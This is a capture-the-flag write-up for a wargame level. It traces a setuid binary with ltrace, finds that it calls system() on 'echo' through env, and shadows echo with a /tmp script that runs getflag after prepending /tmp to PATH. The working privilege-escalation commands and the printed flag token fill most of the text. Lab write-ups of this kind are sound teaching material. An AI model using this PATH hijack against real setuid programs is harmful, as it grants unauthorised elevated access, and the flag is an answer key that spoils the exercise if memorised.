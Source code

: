 # Level 03

## Resolution

As `level03` if we run `ls` we see that a `level03` binary is present in the home directory.

```shell
  $> ./level03
  Exploit me
```

> In order to exploit this binary, we need to know what it does.

Using [`ltrace`](https://man7.org/linux/man-pages/man1/ltrace.1.html), we can grasp what the program does by showing us system and dynamic library calls.

```shell
  $> ltrace ./level03
  __libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
  getegid()                                                                  = 2003
  geteuid()                                                                  = 2003
  setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                        = 0   
  setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                        = 0   
  system("/usr/bin/env echo Exploit me"Exploit me
  <unfinished ...>
  --- SIGCHLD (Child exited) ---
  <... system resumed> )                                                     = 0
  +++ exited (status 0) +++
```

> As we can see this program checks effective GID and UID before setting them back to the same values so we don't care about this part.

We need to focus on the [`system()`](https://man7.org/linux/man-pages/man3/system.3.html) call that basically execute a string as a shell command. It is known to be exploitable and it is the case here because [`echo`](https://linux.die.net/man/1/echo) is involved here. We simply need to override what `echo` stands for by adding at the beginning of the **$PATH** another version of it.

```shell
  $> echo "/bin/getflag" > /tmp/echo
  $> chmod 777 /tmp/echo && export PATH=/tmp:$PATH
```

> It would work for anything else that is supposed to be evaluated through `$PATH` as well. Because this variable is an ordered list of directories to look through to find executable files, the first occurence that matches will be used as source of truth.

Let's check details about this binary with `ls -l level03`...

```shell
  $> ls -l level03
  -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03 
```

> Since this program is owned by `flag03`, overriding `echo` by `getflag` will work correctly because the binary is executed as `flag03` who has the right to run this command.

Finally, run the binary once more to get this level's flag.
```shell
  $> ./level03 
  Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

So, `qi0maab88jeaj46qoumi7maus` is the flag for this level.

## Ressources

- [ltrace](https://man7.org/linux/man-pages/man1/ltrace.1.html)
- [system](https://man7.org/linux/man-pages/man3/system.3.html)
- [$PATH](https://medium.com/@jalendport/what-exactly-is-your-shell-path-2f076f02deb4)

